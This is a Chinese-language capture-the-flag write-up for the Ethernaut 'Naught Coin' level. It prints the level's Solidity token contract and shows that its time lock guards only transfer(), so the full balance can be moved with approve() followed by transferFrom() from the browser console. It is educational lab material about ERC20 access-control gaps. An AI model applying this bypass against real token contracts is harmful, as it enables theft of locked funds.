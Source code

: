 ```
```
## 15 Naught Coin
这关考查对ERC20的了解
先看代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/ERC20.sol";

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) ERC20('NaughtCoin', '0x0') public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```
光看这个函数修饰器是没有漏洞可言的，但问题是，ERC20有两个转账函数，题目中只对`transfer`这一个函数做了修饰，也就是说，我们可以使用另一个函数进行转账-`transferFrom`
* 解题步骤
  直接在控制台操作即可，但要注意，在转账操作之前我们需要先approve
  val='1000000000000000000000000'
  addr='0x5B38Da6a701c568545dCfcB03FcB875f56beddC4'
  1. contract.approve(player,val)
  2. contract.transferFrom(player,addr,val)